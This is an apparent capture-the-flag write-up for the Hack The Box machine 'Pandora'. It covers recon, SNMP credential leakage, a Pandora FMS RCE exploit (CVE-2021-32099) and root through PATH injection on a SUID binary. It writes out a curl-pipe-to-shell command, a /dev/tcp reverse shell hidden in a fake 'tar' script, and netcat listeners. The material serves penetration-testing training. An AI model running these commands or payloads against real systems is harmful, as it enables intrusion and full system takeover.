

# Pandora

## Machine Info


## Recon

### port

nmap

```console
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 24:c2:95:a5:c3:0b:3f:f3:17:3c:68:d7:af:2b:53:38 (RSA)
|   256 b1:41:77:99:46:9a:6c:5d:d2:98:2f:c0:32:9a:ce:03 (ECDSA)
|_  256 e7:36:43:3b:a9:47:8a:19:01:58:b2:bc:89:f6:51:08 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Play | Landing
|_http-server-header: Apache/2.4.41 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 5.0 (96%), Linux 4.15 - 5.8 (96%), Linux 5.3 - 5.4 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), Linux 2.6.32 (94%), Linux 5.0 - 5.5 (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

```console
PORT      STATE         SERVICE
53/udp    closed        domain
67/udp    open|filtered dhcps
68/udp    open|filtered dhcpc
69/udp    open|filtered tftp
123/udp   open|filtered ntp
135/udp   closed        msrpc
137/udp   closed        netbios-ns
138/udp   closed        netbios-dgm
139/udp   open|filtered netbios-ssn
161/udp   open          snmp
162/udp   closed        snmptrap
445/udp   closed        microsoft-ds
500/udp   closed        isakmp
514/udp   open|filtered syslog
520/udp   open|filtered route
631/udp   closed        ipp
1434/udp  closed        ms-sql-m
1900/udp  closed        upnp
4500/udp  closed        nat-t-ike
49152/udp closed        unknown
```

### web

mails:

- support@panda.htb
- contact@panda.htb

## Foothold

### snmp & sensitive credential

`snmpwalk -v2c -c public 10.10.11.136 .`

`snmpwalk -v2c -c public -m ALL 10.10.11.136 .`



Get credential: `daniel:HotelBabylon23`

```console
└─╼$ ssh daniel@$IP
The authenticity of host '10.10.11.136 (10.10.11.136)' can't be established.
ED25519 key fingerprint is SHA256:yDtxiXxKzUipXy+nLREcsfpv/fRomqveZjm6PXq9+BY.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.136' (ED25519) to the list of known hosts.
daniel@10.10.11.136's password:
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-91-generic x86_64)
...
daniel@pandora:~$ id
uid=1001(daniel) gid=1001(daniel) groups=1001(daniel)
daniel@pandora:~$ uname -a
Linux pandora 5.4.0-91-generic #102-Ubuntu SMP Fri Nov 5 16:31:28 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
```

## Privilege Escalation

### daniel -> matt

Enumerate enabled sites under apache:

```console
daniel@pandora:/dev/shm$ cat /etc/apache2/sites-available/pandora.conf
<VirtualHost localhost:80>
  ServerAdmin admin@panda.htb
  ServerName pandora.panda.htb
  DocumentRoot /var/www/pandora
  AssignUserID matt matt
  <Directory /var/www/pandora>
    AllowOverride All
  </Directory>
  ErrorLog /var/log/apache2/error.log
  CustomLog /var/log/apache2/access.log combined
</VirtualHost>
```

Port forwarding: `ssh -N -L 80:localhost:80 daniel@$Ip`

- CMS Version: `Panroda FMS v7.0NG.742_FIX_PERL2020`


**Exploit**: [CVE-2021-32099](https://github.com/shyam0904a/Pandora_v7.0NG.742_exploit_unauthenticated?tab=readme-ov-file)

```console
└─╼$ python sqlpwn.py -t 127.0.0.1
/home/qwe/.local/lib/python3.11/site-packages/requests/__init__.py:102: RequestsDependencyWarning: urllib3 (2.2.0) or chardet (5.2.0)/charset_normalizer (3.3.2) doesn't match a supported version!
  warnings.warn("urllib3 ({}) or chardet ({})/charset_normalizer ({}) doesn't match a supported "
URL:  http://127.0.0.1/pandora_console
[+] Sending Injection Payload
[+] Requesting Session
[+] Admin Session Cookie : t2rd63bsid99ijce6fga9dgl3c
[+] Sending Payload
[+] Respose : 200
[+] Pwned :)
[+] If you want manual Control : http://127.0.0.1/pandora_console/images/pwn.php?test=
CMD > id
uid=1000(matt) gid=1000(matt) groups=1000(matt)

CMD > uname -a
Linux pandora 5.4.0-91-generic #102-Ubuntu SMP Fri Nov 5 16:31:28 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux

CMD > curl http://10.10.14.14:8888/rbash.sh | sh
```

```console
└─╼$ sudo rlwrap nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.11.136] 52610
bash: cannot set terminal process group (802): Inappropriate ioctl for device
bash: no job control in this shell
matt@pandora:/var/www/pandora/pandora_console/images$ id
id
uid=1000(matt) gid=1000(matt) groups=1000(matt)
matt@pandora:/var/www/pandora/pandora_console/images$ uname -a
uname -a
Linux pandora 5.4.0-91-generic #102-Ubuntu SMP Fri Nov 5 16:31:28 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
```

### matt -> root

Enumerate SUID files:

```console
matt@pandora:~$ find / -perm -u=s -type f 2>/dev/null -ls
   264644    164 -rwsr-xr-x   1 root     root       166056 Jan 19  2021 /usr/bin/sudo
   265010     32 -rwsr-xr-x   1 root     root        31032 May 26  2021 /usr/bin/pkexec
   267386     84 -rwsr-xr-x   1 root     root        85064 Jul 14  2021 /usr/bin/chfn
   262764     44 -rwsr-xr-x   1 root     root        44784 Jul 14  2021 /usr/bin/newgrp
   267389     88 -rwsr-xr-x   1 root     root        88464 Jul 14  2021 /usr/bin/gpasswd
   264713     40 -rwsr-xr-x   1 root     root        39144 Jul 21  2020 /usr/bin/umount
   262929     20 -rwsr-x---   1 root     matt        16816 Dec  3  2021 /usr/bin/pandora_backup
   267390     68 -rwsr-xr-x   1 root     root        68208 Jul 14  2021 /usr/bin/passwd
   264371     56 -rwsr-xr-x   1 root     root        55528 Jul 21  2020 /usr/bin/mount
   264643     68 -rwsr-xr-x   1 root     root        67816 Jul 21  2020 /usr/bin/su
   264040     56 -rwsr-sr-x   1 daemon   daemon      55560 Nov 12  2018 /usr/bin/at
   264219     40 -rwsr-xr-x   1 root     root        39144 Mar  7  2020 /usr/bin/fusermount
   267387     52 -rwsr-xr-x   1 root     root        53040 Jul 14  2021 /usr/bin/chsh
   262815    464 -rwsr-xr-x   1 root     root       473576 Jul 23  2021 /usr/lib/openssh/ssh-keysign
   264920     52 -rwsr-xr--   1 root     messagebus    51344 Jun 11  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
   264927     16 -rwsr-xr-x   1 root     root          14488 Jul  8  2019 /usr/lib/eject/dmcrypt-get-device
   266611     24 -rwsr-xr-x   1 root     root          22840 May 26  2021 /usr/lib/policykit-1/polkit-agent-helper-1
```

`/usr/bin/pandora_backup` is worth trying:

```console
matt@pandora:/dev/shm$ file /usr/bin/pandora_backup
/usr/bin/pandora_backup: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=7174c3b04737ad11254839c20c8dab66fce55af8, for GNU/Linux 3.2.0, not stripped

matt@pandora:/dev/shm$ ltrace /usr/bin/pandora_backup | tee ltrace.out
getuid()                                                             = 1000
geteuid()                                                            = 1000
setreuid(1000, 1000)                                                 = 0
puts("PandoraFMS Backup Utility")                                    = 26
puts("Now attempting to backup Pandora"...)                          = 43
system("tar -cvf /root/.backup/pandora-b"...tar: /root/.backup/pandora-backup.tar.gz: Cannot open: Permission denied
tar: Error is not recoverable: exiting now
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                               = 512
puts("Backup failed!\nCheck your permis"...)                         = 39
PandoraFMS Backup Utility
Now attempting to backup PandoraFMS client
Backup failed!
Check your permissions!
+++ exited (status 1) +++
```

1. When executing `pandora_backup`, it acts normally. However, when executing `ltrace /path/to/pandora_backup`, it thows error because of lack of permission. => When this SUID script is executed, it elevates as the root-priv.

2. `tar` is used through relative path => PATH Injection

```console
matt@pandora:/dev/shm$ cat tar
#!/usr/bin/bash
bash -i >&/dev/tcp/10.10.14.14/443 0>&1
matt@pandora:/dev/shm$ ls -l tar
-rwxrwxr-x 1 matt matt 103 Feb  6 20:12 tar
matt@pandora:/dev/shm$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
matt@pandora:/dev/shm$ export PATH=.:$PATH
matt@pandora:/dev/shm$ pandora_backup
PandoraFMS Backup Utility
Now attempting to backup PandoraFMS client

------------------------------------------------------------------------

└─╼$ sudo rlwrap nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.11.136] 52840
root@pandora:/dev/shm# id
id
uid=0(root) gid=1000(matt) groups=1000(matt)
root@pandora:/dev/shm# uname -a
uname -a
Linux pandora 5.4.0-91-generic #102-Ubuntu SMP Fri Nov 5 16:31:28 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
```

## Exploit Chain

port scan -> http, snmp -> snmpwalk to find daniel's cred -> daniel's shell -> local service found & port forwarding -> cve rce -> matt shell -> suid backup file with relative command path tar -> path injection -> root shell
